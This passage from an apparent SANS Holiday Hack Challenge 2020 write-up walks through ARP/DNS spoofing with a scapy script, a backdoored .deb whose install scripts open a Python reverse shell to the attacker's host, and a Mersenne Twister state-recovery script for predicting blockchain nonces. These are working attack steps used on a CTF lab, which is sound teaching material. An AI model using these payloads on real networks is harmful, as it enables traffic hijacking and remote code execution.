.. code-block:: python

    # Our Mac Addr
    macaddr = get_if_hwaddr('eth0')
    # destination ip we arp spoofed
    ipaddr_we_arp_spoofed = '10.6.6.53'

Then, we must build our packet from the ground up. We're gonna need:

- Ethernet layer:
  - A source MAC address
  - A destination MAC address
- IP layer:
  - A source IP address
  - A destination IP address
- UDP layer:
  - A source port
  - A destination port
- DNS layer:
  - A complete DNS response

For the first three layers, we can get these information from our network
interface, or from the source packet:

.. code-block:: python

    eth = Ether(src=macaddr, dst=packet.src)   # The source MAC address is our own, the destination is from the packet
    ip  = IP(dst=packet[IP].src, src=ipaddr_we_arp_spoofed) # The source IP is the one we spoofed, the destination is from the packet
    udp = UDP(dport=packet[UDP].sport, sport=packet[UDP].dport) # We simply invert the source and destination ports from the original packet

Now, let's build the DNS layer. What a stroke of luck, we're given a PCAP with
a valid DNS exchange! Here's a link to `dns.pcap </docs/sans-christmas-challenge-2020/dns.pcap>`__.

As before, let's take a look at it with scapy:

.. code-block:: pycon

    >>> dns_request[DNS].show()
    ###[ DNS ]###
      id        = 30144
      qr        = 0
      opcode    = QUERY
      aa        = 0
      tc        = 0
      rd        = 1
      ra        = 0
      z         = 0
      ad        = 0
      cd        = 0
      rcode     = ok
      qdcount   = 1
      ancount   = 0
      nscount   = 0
      arcount   = 0
      \qd        \
       |###[ DNS Question Record ]###
       |  qname     = 'www.netbsd.org.'
       |  qtype     = A
       |  qclass    = IN
      an        = None
      ns        = None
      ar        = None

    >>> dns_response[DNS].show()
    ###[ DNS ]###
      id        = 30144
      qr        = 1
      opcode    = QUERY
      aa        = 0
      tc        = 0
      rd        = 1
      ra        = 1
      z         = 0
      ad        = 0
      cd        = 0
      rcode     = ok
      qdcount   = 1
      ancount   = 1
      nscount   = 0
      arcount   = 0
      \qd        \
       |###[ DNS Question Record ]###
       |  qname     = 'www.netbsd.org.'
       |  qtype     = A
       |  qclass    = IN
      \an        \
       |###[ DNS Resource Record ]###
       |  rrname    = 'www.netbsd.org.'
       |  type      = A
       |  rclass    = IN
       |  ttl       = 82159
       |  rdlen     = None
       |  rdata     = 204.152.190.12
      ns        = None
      ar        = None

We can see that the DNS response shares a lot of attributes with the DNS
request:

- They have the same :code:`id`
- The response contains a copy of the DNS request in the :code:`qd` attribute

We can also see that:

- :code:`qr` is set to 1.
- :code:`ra` is set to 1.
- :code:`ancount` is set to 1.
- :code:`an` contains a DNS Resource Record (the class :code:`DNSRR` in scapy).
  Inside this response, :code:`rrname` is the same as the request's
  :code:`qname` attribute.
- :code:`an.rdata` contains the IP address the domain name resolves to.

With all this, we can complete our Python script:

.. code-block:: python

    #!/usr/bin/python3
    from scapy.all import *
    import netifaces as ni
    import uuid
    # Our eth0 IP
    ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
    # Our Mac Addr
    macaddr = get_if_hwaddr('eth0')
    # destination ip we arp spoofed
    ipaddr_we_arp_spoofed = '10.6.6.53'
    def handle_dns_request(packet):
        # Need to change mac addresses, Ip Addresses, and ports below.
        # We also need
        eth = Ether(src=macaddr, dst=packet.src)   # The source MAC address is our own, the destination is from the packet
        ip  = IP(dst=packet[IP].src, src=ipaddr_we_arp_spoofed) # The source IP is the one we spoofed, the destination is from the packet
        udp = UDP(dport=packet[UDP].sport, sport=packet[UDP].dport) # We simply invert the source and destination ports from the original packet
        dns = DNS(
                id=packet[DNS].id,
                qr=1,
                ra=1,
                ancount=1,
                qd=packet[DNS].qd.copy(), # we get a copy of the request from the original packet
                an=DNSRR(rrname=packet[DNS].qd.qname, ttl=82159, rdata=ipaddr) # here, we resolve to our own IP address
        )
        dns_response = eth / ip / udp / dns
        sendp(dns_response, iface="eth0")
    def main():
        berkeley_packet_filter = " and ".join( [
            "udp dst port 53",                              # dns
            "udp[10] & 0x80 = 0",                           # dns request
            "dst host {}".format(ipaddr_we_arp_spoofed),    # destination ip we had spoofed (not our real ip)
            "ether dst host {}".format(macaddr)             # our macaddress since we spoofed the ip to our mac
        ] )
        # sniff the eth0 int without storing packets in memory and stopping after one dns request
        sniff(filter=berkeley_packet_filter, prn=handle_dns_request, store=0, iface="eth0", count=1)
    if __name__ == "__main__":
        main()

Now, let's perform both ARP and DNS poisoning, while performing a network
capture:

In a term:

.. code-block:: console

    guest@e25a4aa6f87a:~/pcaps$ tcpdump -i eth0 -w arp_dns_poisoning.pcap
    tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes

In another:

.. code-block:: console

    guest@e25a4aa6f87a:~/scripts$ ./dns_resp.py
    .
    Sent 1 packets.

In yet another:

.. code-block:: console

    guest@e25a4aa6f87a:~/scripts$ ./arp_resp.py
    .
    Sent 1 packets.

Here's a link to `arp_dns_poisoning.pcap </docs/sans-christmas-challenge-2020/arp_dns_poisoning.pcap>`__.

.. image:: /images/sans-christmas-challenge-2020/arp_shenanigans_arp_dns_poisoning.png
    :alt: arp_shenanigans_arp_dns_poisoning.png
    :align: center

Our script properly responded to the DNS request, and sent an answer saying
that ftp.osuosl.org resolves to 10.6.0.3, which is the IP address of our own
machine. We can then see that the hijacked machine tries to connect to our
machine on TCP port 80. Since our port is closed, we send a :code:`RST` packet.
There's also a bunch of TLS traffic that we won't look at right now.

TCP/80 is associated to HTTP traffic, so the hijacked machine is probably
trying to connect to an HTTP server. Let's spin up a simple HTTP server, and
perform our poisoning attacks again:

.. code-block:: console
    :hl_lines: 4

    guest@e25a4aa6f87a:~$ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.6.6.35 - - [31/Dec/2020 12:15:09] code 404, message File not found
    10.6.6.35 - - [31/Dec/2020 12:15:09] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -

The hijacked machine tries to download the file :code:`/pub/jfrost/backdoor/suriv_amd64.deb`
Debian package ("suriv" is "virus" backwards, super sneaky).

Now that is great news! The hijacked machine is probably trying to update its
virus, and is downloading a :code:`.deb` file, which it will probably try
to install using :code:`dpkg`. If we replace :code:`suriv_amd64.deb` by a
:code:`.deb` of our own making, we could gain code execution on the hijacked
machine!

But we don't have the original :code:`suriv_amd64.deb` so how can we modify it?
We don't know how the original package works, so how can we be sure that our
executable will be properly launched?

Well, turns out, we don't need the original package. Indeed, :code:`.deb`
packages can embed scripts that will be launched before/after
installation/removal. So, we can build a barebone :code:`.deb` package, with
only a post-install script.

I used this `handy guide <https://www.internalpointers.com/post/build-binary-deb-package-practical-guide>`__
on how to build :code:`.deb` packages, I suggest you read it. I first tried to
put my payload in the :code:`preinst` script, but it was never executed on our
target machine, despite it working on my test machine. However, using both
:code:`preinst` and :code:`postinst` works. If anyone knows why one set-up
works and the other doesn't, I'm interested!

Now, what can we use as a payload? Well, remember the TLS traffic we saw
between our machine and the hijacked machine? Turns out, the hijacked machine
has a TLS server listening on TCP port 64352:

.. image:: /images/sans-christmas-challenge-2020/arp_shenanigans_tls.png
    :alt: arp_shenanigans_tls.png
    :align: center

Let's try to connect to it using OpenSSL:

.. code-block:: console

    guest@e25a4aa6f87a:~$ openssl s_client -connect 10.6.6.35:64352
    CONNECTED(00000003)
    Can't use SSL_get_servername
    depth=0 C = US, ST = bla, L = asdf, O = asdf, OU = asdf, CN = asdf, emailAddress = asdf
    verify error:num=18:self signed certificate
    verify return:1
    depth=0 C = US, ST = bla, L = asdf, O = asdf, OU = asdf, CN = asdf, emailAddress = asdf
    verify return:1
    ---
    [snip]
    test
    <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
            "http://www.w3.org/TR/html4/strict.dtd">
    <html>
        <head>
            <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
            <title>Error response</title>
        </head>
        <body>
            <h1>Error response</h1>
            <p>Error code: 400</p>
            <p>Message: Bad request syntax ('test').</p>
            <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
        </body>
    </html>
    read:errno=0

Seems to be an HTTPS server, with a self-signed certificate, let's confirm it:

.. code-block:: console
    :hl_lines: 5

    guest@e25a4aa6f87a:~$ curl -i -k https://10.6.6.35:64352
    HTTP/1.0 404 NOT FOUND
    Content-Type: text/html; charset=utf-8
    Content-Length: 232
    Server: Werkzeug/1.0.1 Python/3.8.5
    Date: Thu, 31 Dec 2020 12:36:28 GMT

    <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
    <title>404 Not Found</title>
    <h1>Not Found</h1>
    <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>

It's indeed an HTTPS server, using the `Werkzeug Python library <https://pypi.org/project/Werkzeug/>`__.
So, we can suppose that our target machine has Python3 installed. Therefore,
we can use Python3 to get our reverse shell.

Let's build our malicious :code:`.deb`!

.. code-block:: console

    guest@e25a4aa6f87a:~$ mkdir -p suriv_amd64/DEBIAN

Let's put a fake :code:`control` file, as well as our payload-holding
:code:`preinst` and :code:`postinst` scripts:

.. code-block:: console

    guest@e25a4aa6f87a:~$ cat suriv_amd64/DEBIAN/control
    Package: suriv
    Version: 1.0
    Architecture: amd64
    Maintainer: Jack Frost <jack@frost.com>
    Description: Suriv package from Jack Frost
     Totally not a backdoor
    guest@e25a4aa6f87a:~$ chmod +x suriv_amd64/DEBIAN/postinst # we must make sure the script is executable
    guest@e25a4aa6f87a:~$ cat suriv_amd64/DEBIAN/postinst
    #!/bin/sh

    python3 -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.0.3",8080));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
    guest@e25a4aa6f87a:~$ cp suriv_amd64/DEBIAN/postinst suriv_amd64/DEBIAN/preinst

Let's package it:

.. code-block:: console

    guest@e25a4aa6f87a:~$ dpkg-deb --build --root-owner-group suriv_amd64
    dpkg-deb: building package 'suriv' in 'suriv_amd64.deb'.

Finally, let's build our webroot, and place our payload:

.. code-block:: console

    guest@e25a4aa6f87a:~$ mkdir -p webroot/pub/jfrost/backdoor/
    guest@e25a4aa6f87a:~$ mv suriv_amd64.deb ./webroot/pub/jfrost/backdoor/

In a term:

.. code-block:: console

    guest@e25a4aa6f87a:~$ nc -nlvp 8080
    listening on [any] 8080 ...

In another:

.. code-block:: console

    guest@e25a4aa6f87a:~$ cd webroot/
    guest@e25a4aa6f87a:~/webroot$ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

In yet another:

.. code-block:: console

    guest@e25a4aa6f87a:~/scripts$ ./dns_resp.py
    .
    Sent 1 packets.

In yet *yet* another:

.. code-block:: console

    guest@e25a4aa6f87a:~/scripts$ ./arp_resp.py
    .
    Sent 1 packets.

And after a while, we get our reverse shell:

.. code-block:: console

    guest@e25a4aa6f87a:~$ nc -nlvp 8080
    listening on [any] 8080 ...
    connect to [10.6.0.2] from (UNKNOWN) [10.6.6.35] 43898
    bash: /root/.bashrc: Permission denied
    jfrost@e322017256e1:/$ ls
    ls
    NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt  etc    lib64   opt   sbin  usr
    bin                                            home   libx32  proc  srv   var
    boot                                           lib    media   root  sys
    dev                                            lib32  mnt     run   tmp

We can now finally get the content of the :code:`NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`
file.

    NORTH POLE
    LAND USE BOARD
    MEETING MINUTES

    January 20, 2020

    Meeting Location: All gathered in North Pole Municipal Building, 1 Santa
    Claus Ln, North Pole

    Chairman Frost calls meeting to order at 7:30 PM North Pole Standard Time.

    Roll call of Board members please:

    * Chairman Jack Frost - Present
    * Vice Chairman Mother Nature - Present
    * Superman - Present
    * Clarice - Present
    * Yukon Cornelius - HERE!
    * Ginger Breaddie - Present
    * King Moonracer - Present
    * Mrs. Donner - Present
    * Tanta Kringle - Present
    * Charlie In-the-Box - Here
    * Krampus - Growl
    * Dolly - Present
    * Snow Miser - Heya!
    * Alabaster Snowball - Hello
    * Queen of the Winter Spirits - Present

    ALSO PRESENT:
                    * Kris Kringle
                    * Pepper Minstix
                    * Heat Miser
                    * Father Time

    Chairman Frost made the required announcement concerning the Open Public
    Meetings Act: Adequate notice of this meeting has been made -- displayed on
    the bulletin board next to the Pole, listed on the North Pole community
    website, and published in the North Pole Times newspaper -- for people who
    are interested in this meeting.

    Review minutes for December 2020 meeting. Motion to accept – Mrs. Donner.
    Second – Superman.  Minutes approved.

    OLD BUSINESS: No Old Business.

    RESOLUTIONS:
    The board took up final discussions of the plans presented last year for
    the expansion of Santa’s Castle to include new courtyard, additional
    floors, elevator, roughly tripling the size of the current castle.
    Architect Ms. Pepper reviewed the planned changes and engineering reports.
    Chairman Frost noted, “These changes will put a heavy toll on the
    infrastructure of the North Pole.”  Mr. Krampus replied, “The
    infrastructure has already been expanded to handle it quite easily.”
    Chairman Frost then noted, “But the additional traffic will be a burden on
    local residents.”  Dolly explained traffic projections were all in
    alignment with existing roadways.  Chairman Frost then exclaimed, “But with
    all the attention focused on Santa and his castle, how will people ever
    come to refer to the North Pole as ‘The Frostiest Place on Earth?’”  Mr.
    In-the-Box pointed out that new tourist-friendly taglines are always under
    consideration by the North Pole Chamber of Commerce, and are not a matter
    for this Board.  Mrs. Nature made a motion to approve.  Seconded by Mr.
    Cornelius.  **Tanta Kringle recused herself** from the vote given her
    adoption of Kris Kringle as a son early in his life.

    Approved:

    * Mother Nature
    * Superman
    * Clarice
    * Yukon Cornelius
    * Ginger Breaddie
    * King Moonracer
    * Mrs. Donner
    * Charlie In the Box
    * Krampus
    * Dolly
    * Snow Miser
    * Alabaster Snowball
    * Queen of the Winter Spirits

    Opposed:
                    * Jack Frost

    Resolution carries.  Construction approved.

    NEW BUSINESS:

    Father Time Castle, new oversized furnace to be installed by Heat Miser
    Furnace, Inc.  Mr. H. Miser described the plan for installing new furnace
    to replace the faltering one in Mr. Time’s 20,000 sq ft castle. Ms. G.
    Breaddie pointed out that the proposed new furnace is 900,000,000 BTUs, a
    figure she considers “incredibly high for a building that size, likely two
    orders of magnitude too high.  Why, it might burn the whole North Pole
    down!”  Mr. H. Miser replied with a laugh, “That’s the whole point!”  The
    board voted unanimously to reject the initial proposal, recommending that
    Mr. Miser devise a more realistic and safe plan for Mr. Time’s castle
    heating system.

    Motion to adjourn – So moved, Krampus.  Second – Clarice. All in favor –
    aye. None opposed, although Chairman Frost made another note of his strong
    disagreement with the approval of the Kringle Castle expansion plan.
    Meeting adjourned.

Sounds like things got pretty *heated* (get it?) at the North Pole land use
board meeting. Plans to expand Santa's Castle were approved by all, except by
Jack Frost. Tanta Kringle recused herself due to the fact she adopted Santa,
and was therefore not impartial.

Regarding the technical aspect of this challenge, if you ask yourself how we
could listen on TCP port 80 or crafting and sending raw packets without being
:code:`root` on our machine, it's because the Python executable has the proper
capabilities:

.. code-block:: console

    guest@c55799ca6034:~$ getcap /usr/bin/python3.8
    /usr/bin/python3.8 = cap_net_bind_service,cap_net_admin,cap_net_raw+eip

- :code:`CAP_NET_BIND_SERVICE`: Bind a socket to Internet domain privileged 
  ports (port numbers less than 1024). 
- :code:`CAP_NET_ADMIN`: Perform various network-related operations.
- :code:`CAP_NET_RAW`:
    - use RAW and PACKET sockets;
    - bind to any address for transparent proxying.

More informations on Linux capabilities `here <https://linux.die.net/man/7/capabilities>`__.

Regarding the TLS traffic between our machine and the hijacked machine
(remember the Werkzeug server?), I guess it's some kind of C&C traffic
simulation. I wanted to investigate using the reverse shell, but we're dropped
to a low-privileged user called :code:`jfrost`. Oh well!

Objective 10: Defeat Fingerprint Sensor
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Several ways to bypass the fingerprint sensor were detailed in `this section <#second-method-pretending-we-have-the-bits-and-bobs>`__
and `this section <#third-method-who-needs-bits-and-bobs-anyway>`__.

Objective 11:
~~~~~~~~~~~~~

Naughty/Nice List with Blockchain Investigation Part 1
------------------------------------------------------

In Santa's office, we can find the Naughty/Nice list, right on the desk. It's
stored as a blockchain that you can download `here </docs/sans-christmas-challenge-2020/blockchain.dat>`__.
To get a presentation on the Naughty/Nice blockchain, you can check `this
KringleCon talk from Prof. Qwerty Petabyte <https://www.youtube.com/watch?v=reKsZ8E44vw>`__.
You can also download the `Official Naughty/Nice Blockchain Education Pack
</docs/sans-christmas-challenge-2020/OfficialNaughtyNiceBlockchainEducationPack.zip>`__,
which includes Python code to interact with the :code:`blockchain.dat`.

Just quickly, the information to determine is naughty or nice are stored in 
a block:

.. image:: /images/sans-christmas-challenge-2020/blockchain_block_structure.png
    :alt: Block have the following structure:
        1. Index of the block
        2. Nonce (random value)
        3. Person ID
        4. Elf ID
        5. Number of documents
        6. Naughty/Nice points
        7. Naughty/Nice flag
        8. Documents (PDFs, images, videos, texts, blobs, etc.)
        9. Date/time the block was generated
        10. Hash of the previous block
        11. Signature of the hash of data 1-10
        12. Hash of the block and signature (data 1-11)
    :align: center

The nonce is a 64-bit random value, that is used to prevent attacks on MD5
(yeah, the blockchain uses MD5 as a hash function, because it was implemented
long ago).

But how secure are these nonces? Let's take a look at the :code:`naughty_nice.py`
from the blockchain education pack linked earlier, to see how they are
generated:

.. code-block:: python
    :hl_lines: 13

    class Block():
        def __init__(self, index=None, block_data=None, previous_hash=None, load=False, genesis=False):
            if(genesis == True):
                return None
            else:
                self.data = []
                if(load == False):
                    if all(p is not None for p in [index, block_data['documents'], block_data['pid'], block_data['rid'], block_data['score'], block_data['sign'], previous_hash]):
                        self.index = index
                        if self.index == 0:
                            self.nonce = 0 # genesis block
                        else:
                            self.nonce = random.randrange(0xFFFFFFFFFFFFFFFF)

They are generated with :code:`random.randrange`. Is this function
cryptographically secure? Let's check the `Python documentation <https://docs.python.org/3/library/random.html>`__:

    Almost all module functions depend on the basic function random(), which
    generates a random float uniformly in the semi-open range [0.0, 1.0).
    Python uses the **Mersenne Twister** as the core generator. It produces
    53-bit precision floats and has a period of 2**19937-1. The underlying
    implementation in C is both fast and threadsafe. The Mersenne Twister is
    one of the most extensively tested random number generators in existence.
    However, being completely deterministic, it is not suitable for all
    purposes, and is completely unsuitable for cryptographic purposes.

The randomness is produced via a `Mersenne Twister <https://en.wikipedia.org/wiki/Mersenne_Twister>`__.
It's a Pseudo-Random Number Generator (emphasis on Pseudo). It's not meant to
be cryptographically secure. In fact, it has serious drawbacks that are
detailed in `this KringleCon talk from Tom Liston <https://www.youtube.com/watch?v=Jo5Nlbqd-Vg>`__.

Basically, a Mersenne Twister has an internal state of 624 32-bit integers.
When a caller requests 32 bits of randomness, the Mersenne Twister takes an
integer from its internal state, *tampers it*, then returns it. It then moves
onto the next integer in the state, and so on. Once every 624 integers have
been tampered with, the internal state is *twisted*, and the Twister starts
again from the first integer.

The problem is that the tampering operation is reversible. So, given the
output of a Mersenne Twister, we can *untamper it*, and get back the integer
that was in the internal state. If we have 624 outputs, we can reconstruct
the entire internal state of the Mersenne Twister. And this is a problem,
because two Mersenne Twisters with the same internal states will produce the
same numbers.

But wait, a Mersenne Twister produces random integers of 32 bits, so how can
we get nonces wich are 64 bit long? To understand this, we have to look at
how :code:`random.randrange` works. Remember that it's the function used to
generated the nonces:

.. code-block:: python

    self.nonce = random.randrange(0xFFFFFFFFFFFFFFFF)

`Here <https://github.com/python/cpython/blob/a9621bb301dba44494e81edc00e3a3b62c96af26/Lib/random.py#L291>`__'s
its implementation. The interesting chunk of code is this one:

.. code-block:: python
    :hl_lines: 3

        if stop is None:
            if istart > 0:
                return self._randbelow(istart)

Indeed, in our example :code:`random.randrange` is called with only a upper
value, so we enter this :code:`if` clause. This means that the generation is
delegated to :code:`_randbelow`. It's defined `here <https://github.com/python/cpython/blob/a9621bb301dba44494e81edc00e3a3b62c96af26/Lib/random.py#L271>`__
as equal to :code:`_randbelow_with_getrandbits`, which is implemented `here
<https://github.com/python/cpython/blob/a9621bb301dba44494e81edc00e3a3b62c96af26/Lib/random.py#L238>`__:

.. code-block:: python
    :hl_lines: 8 10

    def _randbelow_with_getrandbits(self, n):
        "Return a random int in the range [0,n).  Returns 0 if n==0."

        if not n:
            return 0
        getrandbits = self.getrandbits
        k = n.bit_length()  # don't use (n-1) here because n can be 1
        r = getrandbits(k)  # 0 <= r < 2**k
        while r >= n:
            r = getrandbits(k)
        return r

Basically, it computes :code:`k`, the size in bits of our upper limit, and
generates :code:`k` random bits, using :code:`getrandbits`. In our case,
:code:`k` is equal to 64, since our upper limit is :code:`0xFFFFFFFFFFFFFFFF`.

So, let's check function :code:`getrandbits`. But where is it implemented?
There is one function with this name in our :code:`random.py` file, but it's
in another class, the class :code:`SystemRandom`, which uses a source of
entropy from the operating system. But it's not the class we're using here.

In fact, our implementation is `here, coded in C <https://github.com/python/cpython/blob/b8fde8b5418b75d2935d0ff93b20d45d5350f206/Modules/_randommodule.c#L460>`__.
Let's study how it works. We can discard the beginning of the function, since
in our case, :code:`k=64`:

.. code-block:: c

    words = (k - 1) / 32 + 1;
    wordarray = (uint32_t *)PyMem_Malloc(words * 4);

First, it creates an array that will contain the words receiving our random
values. In our case, there are two words (two 32-bit words = one 64-bit nonce).

.. code-block:: c

    #if PY_LITTLE_ENDIAN
        for (i = 0; i < words; i++, k -= 32)
    #else
        for (i = words - 1; i >= 0; i--, k -= 32)
    #endif

Depending on the `endianness <https://en.wikipedia.org/wiki/Endianness>`__, it
will generate the least or most significant bits first.

.. code-block:: c
    :hl_lines: 2

    {
        r = genrand_uint32(self);
        if (k < 32)
            r >>= (32 - k);  /* Drop least significant bits */
        wordarray[i] = r;
    }

It generates a 32-bit random value with :code:`genrand_uint32` (our Mersenne
Twister), and store it into our word-array. It does so until every word has
been generated. It handles the case where :code:`k` is not a multiple of 32,
but it does not concern us (since :code:`k=64=2*32`).

In conclusion, our 64-bit nonces are created by calling our Mersenne Twister
twice and concatenating our two 32-bit integers. The order of concatenation
depends on the endianness. Let's check on our machine:

.. code-block:: pycon

    >>> r1 = random.Random(0) # We create two random generators, with the same seed
    >>> r2 = random.Random(0)
    >>> hex(r1.randrange(0XFFFFFFFFFFFFFFFF)) # This create a nonce, just like in the blockchain code
    '0x629f6fbed82c07cd'
    >>> hex(r2.getrandbits(32)) # Here, we call the Mersenne Twister twice
    '0xd82c07cd'
    >>> hex(r2.getrandbits(32))
    '0x629f6fbe'

We can see that our nonce is the concatenation of our two Mersenne Twister
generated integers. The first integer is used in the least significant bits.

If we need 624 integers to reconstruct our Mersenne Twister internal state,
we only need half of that of nonces (so 312 nonces). Do we have enough nonces
in our blockchain?

.. code-block:: pycon

    >>> from naughty_nice import Chain
    >>> c = Chain(load=True, filename='blockchain.dat')
    >>> len(c.blocks)
    1548

There are 1548 blocks in the chain, each with a nonce. This means 1548 nonces,
and therefore 3096 Mersenne Twister generated integers. More than enough to
reconstruct our internal state!

To help us in our task, Tom Liston (from the KringleCon talk) created a simple
Python library that reimplements the Mersenne Twister in pure Python, with
an untampering function. You can find it `here on GitHub <https://github.com/tliston/mt19937>`__.
Now, we have everything we need to generate future nonces in our blockchain!

The id of our lost block in the chain is 129996. Let's say we want to find the
nonce value for block #130000. We have to generate four additional nonces.

Here's our source code:

.. code-block:: python

    #!/usr/bin/env python3
    # File predict_nonces.py

    from naughty_nice import Chain
    from mt19937.mt19937 import mt19937, untemper

    def nonce_2_words(nonce):
        word_msb = (nonce >> 32) & 0xFFFFFFFF
        word_lsb = nonce & 0xFFFFFFFF

        return (word_msb, word_lsb)

    def words_2_nonce(word_msb, word_lsb):
        nonce = (word_msb << 32) + word_lsb

        return nonce

    def generate_nonce(mt):
        lsb = mt.extract_number()
        msb = mt.extract_number()

        return words_2_nonce(msb, lsb)

    def main():
        c = Chain(load=True, filename='blockchain.dat')
        mt = mt19937(0) # This will hold our cloned Mersenne Twister

        # For every block in the begining of the chain
        for i, b in enumerate(c.blocks[:312]):
            # We extract the two words generated by the Mersenne Twister
            msb, lsb = nonce_2_words(b.nonce)
            # We untamper them and store them in our new Mersenne Twister
            mt.MT[2*i] = untemper(lsb)
            mt.MT[2*i+1] = untemper(msb)

        # For every remaining block
        for test_b in c.blocks[312:]:
            # We test it the predicted nonce matches the actual nonce
            actual_nonce = test_b.nonce
            predicted_nonce = generate_nonce(mt)
            assert(actual_nonce == predicted_nonce)

        # We generate four blocks to determine the nonce for block #130000
        for i in range(4):
            predicted_nonce = generate_nonce(mt)
            print('Predicted nonce for block #{}: {:016x}'.format(129997+i, predicted_nonce))

    if __name__ == '__main__':
        main()

Let's run our program:

.. code-block:: console
    :hl_lines: 5

    $ ./predict_nonces.py 
    Predicted nonce for block #129997: b744baba65ed6fce
    Predicted nonce for block #129998: 01866abd00f13aed
    Predicted nonce for block #129999: 844f6b07bd9403e4
    Predicted nonce for block #130000: 57066318f32f729d

Block #130000 will have a nonce equal to :code:`57066318f32f729d`.

Naughty/Nice List with Blockchain Investigation Part 2
------------------------------------------------------

Apparently, Jack Frost managed to modify the blockchain, to get a perfect
nice score. Given the character, this is raising eyebrows. We're told that
its block has a SHA256 sum of :code:`58a3b9335a6ceb0234c12d35a0564c4ef0e90152d0eb2ce2082383b38028a90f`.
Let's find Jack's block.

First, we save every block to a file:

.. code-block:: pycon

    >>> from naughty_nice import Chain
    >>> c = Chain(load=True, filename='blockchain.dat')
    >>> for i in range(len(c.blocks)):
    ...     c.save_a_block(i, './blocks/block_{}'.format(i))
    ... 
    >>> 

Then we compute the SHA256 sum of every block, and find our match:

.. code-block:: console

    $ sha256sum ./blocks/* | grep 58a3b9335a6ceb0234c12d35a0564c4ef0e90152d0eb2ce2082383b38028a90f
    58a3b9335a6ceb0234c12d35a0564c4ef0e90152d0eb2ce2082383b38028a90f  ./blocks/block_1010

So, Jack's block is at offset 1010 in the chain. Let's study it a little bit:

.. code-block:: pycon

    >>> c.blocks[1010]
    Chain Index: 129459
                  Nonce: a9447e5771c704f4
                    PID: 0000000000012fd1
                    RID: 000000000000020f
         Document Count: 2
                  Score: ffffffff (4294967295)
                   Sign: 1 (Nice)
             Data item: 1
                   Data Type: ff (Binary blob)
                 Data Length: 0000006c
                        Data: b'ea465340303a6079d3df2762be68467c27f046d3a7ff4e92dfe1def7407f2a7b73e1b759b8b919451e37518d22d987296fcb0f188dd60388bf20350f2a91c29d0348614dc0bceef2bcadd4cc3f251ba8f9fbaf171a06df1e1fd8649396ab86f9d5118cc8d8204b4ffe8d8f09'
             Data item: 2
                   Data Type: 05 (PDF)
                 Data Length: 00009f57
                        Data: b'255044462d312e[snip]
                   Date: 03/24
                   Time: 13:21:41
           PreviousHash: 4a91947439046c2dbaa96db38e924665
      Data Hash to Sign: 347979fece8d403e06f89f8633b5231a
              Signature: b'MJIxJy2iFXJRCN1EwDsqO9NzE2Dq1qlvZuFFlljmQ03+erFpqqgSI1xhfAwlfmI2MqZWXA9RDTVw3+aWPq2S0CKuKvXkDOrX92cPUz5wEMYNfuxrpOFhrK2sks0yeQWPsHFEV4cl6jtkZ//OwdIznTuVgfuA8UDcnqCpzSV9Uu8ugZpAlUY43Y40ecJPFoI/xi+VU4xM0+9vjY0EmQijOj5k89/AbMAD2R3UbFNmmR61w7cVLrDhx3XwTdY2RCc3ovnUYmhgPNnduKIUA/zKbuu95FFi5M2r6c5Mt6F+c9EdLza24xX2J4l3YbmagR/AEBaF9EBMDZ1o5cMTMCtHfw=='

We can see that Jack's block effectively has a perfect score of
:code:`0xffffffff`, with a naughty/nice sign equal to 1 (meaning "Nice"). His
block also has two documents: one binary blob with what seems to be random
data, and a PDF. Let's extract the latter:

.. code-block:: pycon

    >>> c.blocks[1010].dump_doc(0)
    Document dumped as: 129459.pdf

You can download the file `here </docs/sans-christmas-challenge-2020/129459.pdf>`__.
Here's the content:

    “Jack Frost is the kindest, bravest, warmest, most wonderful being I’ve
    ever known in my life.”

    – Mother Nature

    “Jack Frost is the bravest, kindest, most wonderful, warmest being I’ve
    ever known in my life.”

    – The Tooth Fairy

    “Jack Frost is the warmest, most wonderful, bravest, kindest being I’ve
    ever known in my life.”

    – Rudolph of the Red Nose

    “Jack Frost is the most wonderful, warmest, kindest, bravest being I’ve
    ever known in my life.”

    – The Abominable Snowman

    With acclaim like this, coming from folks who really know goodness when
    they see it, Jack Frost should undoubtedly be awarded a huge number of
    Naughty/Nice points.

    Shinny Upatree

    3/24/2020

Hmm, something seems fishy... Let's examine this PDF a little more closely
with :code:`pdfid`:

.. code-block:: console
    :hl_lines: 11

    $ pdfid ./129459.pdf
    PDFiD 0.2.7 ./129459.pdf
     PDF Header: %PDF-1.3
     obj                   23
     endobj                23
     stream                 8
     endstream              8
     xref                   1
     trailer                1
     startxref              1
     /Page                  2
     /Encrypt               0
     /ObjStm                0
     /JS                    0
     /JavaScript            0
     /AA                    0
     /OpenAction            0
     /AcroForm              0
     /JBIG2Decode           0
     /RichMedia             0
     /Launch                0
     /EmbeddedFile          0
     /XFA                   0
     /Colors > 2^24         0

What, two :code:`/Page` objects? But there's only one page in the PDF.
Something doesn't add up, let's examine it even more closely, with `PDF Stream
Dumper <http://sandsprite.com/blogs/index.php?uid=7&pid=57>`__.

*NB: to understand how to navigate inside a PDF file, I used* `this thorough
article from Infosec Institude <https://resources.infosecinstitute.com/topic/pdf-file-format-basic-structure/>`__,
*as well as* `this simple image <https://raw.githubusercontent.com/corkami/pics/master/binary/PDF.png>`__
*from Ange Albertini, aka @corkami, our national treasure.*

.. image:: /images/sans-christmas-challenge-2020/129459.pdf_trailer.png
    :alt: 129459.pdf_trailer.png
    :align: center

The trailer is referencing object #1 as the root of the PDF document. Let's
check it:

.. image:: /images/sans-christmas-challenge-2020/129459.pdf_object_1.png
    :alt: 129459.pdf_object_1.png
    :align: center

It's an object of type :code:`/Catalog`, pointing to object #2 as pages. But
